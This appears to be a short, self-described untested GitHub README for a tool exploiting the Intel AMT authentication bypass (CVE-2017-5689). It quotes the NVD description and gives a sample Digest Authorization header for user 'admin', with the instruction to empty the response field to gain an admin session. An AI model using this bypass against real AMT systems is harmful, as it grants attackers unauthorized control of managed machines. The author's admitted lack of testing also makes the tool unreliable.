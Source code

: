 # Intel_IME_WebUI_bypass
does this even work?

This has some new things I have never done before and I am still testing it... haven't even run the darn thing yet but it looks like it works I guess.

################################################################################

This is a tool to persist an Intel IME admin session by modifying the GET 
request to have the "response:" field empty in every request. 
The web portal presented by the HARDWARE uses an MD5 in the response body to
authenticate and per the link given, can be bypassed by simply emptying it.

CVE-2017-5689

  https://www.ssh.com/vulnerability/intel-amt/

  https://nvd.nist.gov/vuln/detail/CVE-2017-5689
 
  An unprivileged network attacker could gain system privileges to 
  provisioned Intel manageability SKUs: Intel Active Management Technology 
  (AMT) and Intel Standard Manageability (ISM). An unprivileged local attacker
  could provision manageability features gaining unprivileged network or local
  system privileges on Intel manageability SKUs: Intel Active Management 
  Technology (AMT), Intel Standard Manageability (ISM), and Intel Small 
  Business Technology (SBT).
 
###############################################################################

 Referer: `http://192.168.0.44:16992/logon.htm`

 Authorization: 
 
       Digest username="admin", 
       
       realm="Digest:72C40000000000000000000000000000", 
       
       nonce="WT7ZAQsLAABEyoVgz4/+bFmvwKIRUvUI", 
       
       uri="/index.htm", 
       
       response="9621f86ecc7d8f680213ddc2aae3f21d", 
       
       qop=auth, 
       
       nc=00000001,
       
       cnonce="96d5787909ac7ea7"
       
################################################################################

 WE MODIFY 'response=""' TO BE EMPTY WITH THE USERNAME "ADMIN" THAT IS ALL
 
################################################################################
